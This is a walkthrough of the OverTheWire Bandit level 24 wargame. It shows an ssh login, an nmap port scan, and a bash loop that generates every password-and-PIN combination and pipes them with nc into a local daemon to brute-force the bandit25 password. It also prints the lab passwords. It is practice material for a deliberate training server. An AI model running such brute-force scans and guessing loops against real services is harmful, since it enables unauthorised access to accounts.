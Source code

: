 # Bandit Level 24 → Level 25

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

##Solution
Brute Force attack is a cryptographic hack. Also known as an Exhaustive Search, it relies on calculating and submitting every possible password combination with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.

```                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
```

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Linux bandit.otw.local 5.4.8 x86_64 GNU/Linux
```
      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org
```

Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with
  easily guessable or short names will be periodically deleted!

  Please play nice:

    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS!
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * gef (https://github.com/hugsy/gef) in /usr/local/gef/
    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

```
bandit24@bandit:~$ nmap -p- localhost

Starting Nmap 7.40 ( https://nmap.org ) at 2022-02-11 10:11 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
113/tcp   open  ident
1234/tcp  open  hotline
30000/tcp open  ndmps
30001/tcp open  pago-services1
30002/tcp open  pago-services2
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds

bandit24@bandit:~$ mkdir /tmp/dirbandit24

bandit24@bandit:~$ cd /tmp/dirbandit24

bandit24@bandit:/tmp/dirbandit24$ vim basefile.sh

bandit24@bandit:/tmp/dirbandit24$ cat basefile.sh
#!/bin/bash

for i in {0000..9999};
    do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt
    done
    
bandit24@bandit:/tmp/dirbandit24$ chmod +x basefile.sh

bandit24@bandit:/tmp/dirbandit24$ ./basefile.sh

bandit24@bandit:/tmp/dirbandit24$ head -n 4 combinations.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003

bandit24@bandit:/tmp/dirbandit24$ cat combinations.txt | nc localhost 30002 >> result.txt

bandit24@bandit:/tmp/dirbandit24$ sort result.txt | uniq -u

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

bandit24@bandit:/tmp/dirbandit24$ rm -rf /tmp/dirbandit24

bandit24@bandit:/tmp/dirbandit24$ exit
logout
Connection to bandit.labs.overthewire.org closed.
```                  

